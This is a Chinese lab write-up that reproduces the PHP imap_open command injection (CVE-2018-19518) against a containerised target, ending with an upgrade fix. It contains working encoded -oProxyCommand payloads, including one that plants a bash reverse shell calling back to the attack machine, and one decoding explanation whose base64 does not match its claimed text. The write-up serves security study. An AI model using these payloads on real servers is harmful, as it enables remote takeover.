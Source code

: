 # PHP imap 远程命令执行漏洞（CVE-2018-19518）

## 漏洞背景
PHP 的 imap_open 函数用于连接IMAP服务器以执行邮件收发操作。在某些Linux发行版（如Debian和Ubuntu）中，imap_open 函数会调用 rsh 来连接远程shell，但这些系统中 rsh 命令实际上是 ssh 命令的符号链接，imap_open 函数在将邮箱名称传递给 rsh 或 ssh 命令之前，没有正确过滤输入参数。攻击者可以通过构造恶意的IMAP服务器名称，注入 -oProxyCommand 参数

## 实验环境
- 靶机IP:192.168.157.131
- 攻击机IP:192.168.93.130

## 复现步骤
进行端口转发后进入环境
![](./img/进入环境.png)

输入任意信息后进行抓包
![](./img/输入信息后抓包.png)

将hostname修改为
```
hostname=aaa+-oProxyCommand%3decho%09ZWNobyAnVGhpcyBpcyBhIHRlc3QhJz4vdG1wL3Rlc3Q%3d|base64%09-d|sh}&username=111&password=222
```
![](./img/构造恶意payload.png)
```
上述中x+-oProxyCommand%3decho%09ZWNobyAnVGhpcyBpcyBhIHRlc3QhJz4vdG1wL3Rlc3Q%3d|base64%09-d|sh}的意思如下:
使用url编码解码后x -oProxyCommand=echo ZWNobyAnMTIzNDU2Nzg5MCc+L3RtcC90ZXN0MDAwMQo=|base64 -d|sh}
ZWNobyAnMTIzNDU2Nzg5MCc+L3RtcC90ZXN0MDAwMQo=的意思是echo 'This is a test!'>/tmp/test
```

进入容器后查看tmp目录发现并查看test文件
```bash
sudo docker exec -it 8999591a03ad /bin/bash
root@8999591a03ad:/var/www/html# cd /tmp
root@8999591a03ad:/tmp# ls
flag-{bmh760e65be-84c5-4e7f-ba70-3cf421c2cc4e}  test
root@8999591a03ad:/tmp# cat test
This is a test!
root@8999591a03ad:/tmp#
```
![](./img/指令成功执行.png)

## 反弹shell
编写一段python脚本实现从原始shell命令到base64编码后输出结果为url编码
在前面以及解释过生成原理，故此处不再阐述
```
x+-oProxyCommand%3decho%09ZWNobyAiL2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguOTMuMTMwLzQ0NDQgMD4mMSIgPiAvdG1wLzEyMw==|base64%09-d|sh}
```
![](./img/编写脚本编码payload.png)
![](./img/修改hostname为payload.png)

再次进入容器发现以及成功写入脚本
![](./img/成功写入脚本.png)

攻击机上开启监听
![](./img/开启监听.png)

将hostname修改为x+-oProxyCommand%3decho%09L2Jpbi9iYXNoIC90bXAvMTIz|base64%09-d|sh}
该命令意思是/bin/bash /tmp/123，即启动之前注入的脚本
![](./img/再次修改hostname.png)

在send后攻击机成功反弹shell，并且进入tmp目录成功发现flag
![](./img/成功反弹shell.png)
![](./img/发现flag.png)

## 漏洞修复
**升级 php-imap 版本**
此漏洞已在较新版本的 php-imap / uw-imap 库中被修复：
对于使用 libc-client 的 php-imap 用户，可以升级到最新版 PHP 版本（>7.3.13 或 PHP 7.4+）确保底层的 uw-imap 库也更新（如果系统使用）
